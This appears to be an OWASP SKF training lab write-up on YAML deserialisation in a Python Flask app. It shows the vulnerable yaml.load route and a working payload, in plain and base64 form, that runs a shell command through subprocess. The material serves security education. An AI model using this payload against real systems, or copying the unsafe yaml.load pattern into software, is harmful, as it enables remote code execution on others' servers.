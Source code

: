 # KBID 271 - Deserialisation Yaml

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.  

![](.gitbook/assets/DES-Yaml1_2.png)

By Base64 decoding you can see it uses a key value pair -&gt; foo : value  

![](.gitbook/assets/DES-Yaml1_3.png)

Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.

![](.gitbook/assets/DES-Yaml1_1.png)

In the code example the *input* query string parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
@app.route("/information/<input>", methods=['GET'])
def deserialization(input):
    try:
            if not input:
                return render_template("information/index.html")
            yaml_file = base64.b64decode(input)
            content = yaml.load(yaml_file)
    except:
            content = "The application was unable to  to deserialize the object!"
    return render_template("index.html", content = content['yaml'])

```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: woop woop
```

Encode it in Base64 and put it in place the original yaml object.
```text
eWFtbDogd29vcCB3b29w
```

![](.gitbook/assets/DES-Yaml1_4.png)


As you can see our yaml object was accepted and parsed by the application. 

When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
yaml: !!python/object/apply:subprocess.check_output ['whoami']
```

Base64:

```text
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnd2hvYW1pJ10=
```

Now when we submit the new yaml object we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

![](.gitbook/assets/DES-Yaml1_5.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization\_Cheat\_Sheet\#Python" %}

